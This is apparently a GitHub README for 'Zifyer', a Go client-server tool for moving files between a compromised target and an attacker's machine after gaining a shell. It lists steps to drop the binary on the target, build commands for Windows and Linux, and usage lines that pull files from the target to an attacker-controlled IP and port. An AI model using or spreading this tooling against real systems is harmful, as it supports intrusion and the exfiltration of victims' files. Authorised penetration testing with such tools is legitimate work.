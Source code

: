 <h1>Zifyer Client-Server</h1>
This is a small tool to upload/download files from a machine while connected with a shell to it, no imports, plane and simple in order to avoid powershell and etc..
<p>Steps:</p>
<p>1. Get a shell to the target</p>
<p>2. Run the server on your machine all files will be under the directory 'uploads'.</p>
<p>3. Drop the Zifyer binary to target machine.</p>
<p>4. Upload/Download files between the shells.</p>

<p>For those who are new to this:</p>
<p>apt-get install golang</p>

<h3>Compile for windows x86/x64:</h3>
<p>GOOS=windows GOARCH=amd64 go build -o Zifyer.exe Client.go</p>
<p>GOOS=windows GOARCH=386 go build -o Zifyer.exe Client.go</p>

<h3>Compile for linux </h3>

go build Client.go


<h3>Zifyer.exe Usage:</h3>
<p>-h for help</p>
<p>-d download mode</p>
<p>-u upload mode </p>
<p>-H IP </p>
<p>-p Port </p>
<p>-f File </p>

<h4>Download to Server mode: </h4>
<p>Zifyer.exe -d -H "Remote I.P/DOMAIN" -p "Port" -f "file location example: /home/test.txt"</p>

<h4>Upload to Attacking machine mode:</h4>
<p>Zifyer.exe -u -H "I.P/DOMAIN to get file from" -p "Port" -f "file location example: /home/test.txt"</p>


<h3>Zifyer_Server Usage:</h3>
<p>-h for help</p>
<p>-H IP to host server </p>
<p>-p Port </p>


<p>./Zifyer_Server -H "I.p to host the server" -p "Port" 
<p>1. compile -> go build Final_Server.go</p>
<p>2. run -> ./Zifyer_Server -H "Your I.P" -p 9000 </p>
<p> File upload can also be made via Web, just go to your server's url and upload manually :) </p>

